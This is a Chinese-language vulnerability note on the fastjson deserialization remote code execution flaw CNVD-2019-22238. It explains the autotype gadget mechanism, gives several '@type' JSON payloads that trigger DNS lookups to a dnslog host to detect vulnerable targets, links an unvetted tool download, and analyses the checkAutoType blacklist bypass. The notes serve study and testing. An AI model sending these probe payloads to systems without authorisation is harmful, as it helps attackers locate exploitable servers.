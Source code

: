  fastjson 远程代码执行 （CNVD-2019-22238）

描述: Fastjson 是一个 Java 库,可以将 Java 对象转换为 JSON 格式,当然它也可以将 JSON 字符串转换为 Java 对象 Fastjson提供了autotype功能，允许用户在反序列化数据中通过“@type”指定反序列化的类型，其次，Fastjson自定义的反序列化机制时会调用指定类中的setter方法及部分getter方法，那么当组件开启了autotype功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定setter或者getter方法中，若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的“Gadget”），则会造成一些严重的安全问题。

影响版本
fastjson <= 1.2.47

漏洞检测

1.使用工具检测

https://pan.baidu.com/s/196DJjEmEookxqTUYp8-qkw 
提取码：qwer 

手动检测：

{"a":{"@type":"java.net.Inet4Address","val":"dnslog"}} {"a":{"@type":"java.net.Inet6Address","val":"dnslog"}} {"a":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}} {"a":{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}} {"a":{"@type":"java.net.URL","val":"dnslog"}}

两种方法都是用了dnslog检测

dnslog检测原理

通过Dnslog判断是否使用fastjson
==============================

方法一：利用java.net.Inet \[4 \| 6\]地址
----------------------------------------

很早之前有一个方法是使用`java.net.InetAddress`类，现在这个类已经列入黑名单。而在翻阅fastjson最新版源码（`v1.2.67`）时，发现两个类没有在黑名单中，于是可以构造了如下有效载荷，可以使fastjson进行DNS解析。下面以`java.net.Inet4Address`为例分析构造原理。

    {"@type":"java.net.Inet4Address","val":"dnslog"}
    {"@type":"java.net.Inet6Address","val":"dnslog"}

我们知道在fastjson在反序列化之前都会调用`checkAutoType`方法对类进行检查。通过调试发现，由于`java.net.Inet4Address`不在黑名单中，所以就算开启AutoType也是能过`1`处的检查。

fastjson的ParserConfig类自己维护了一个`IdentityHashMap`，在这个HashMap中的类会被认为是安全的。在`2`处可以在IdentityHashMap中可以获取到`java.net.Inet4Address`，所以`clazz`不为`null`，导致在`3`处就返回了。跳过了后续的未开启`AutoType`的黑名单检查。所以可以发现无论`AutoType`是否开启，都可以过`checkAutoType`的检查

    //com.alibaba.fastjson.parser.ParserConfig#checkAutoType
    public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
        ...
        Class clazz;
    
        // 1.当打开了autoTypeSupport,类名又不在白名单时进行的黑名单检查
        if (!internalWhite && (this.autoTypeSupport || expectClassFlag)) {
            hash = h3;
    
            for(mask = 3; mask < className.length(); ++mask) {
                hash ^= (long)className.charAt(mask);
                hash *= 1099511628211L;
                ....
                if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null && Arrays.binarySearch(this.acceptHashCodes, fullHash) < 0) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }
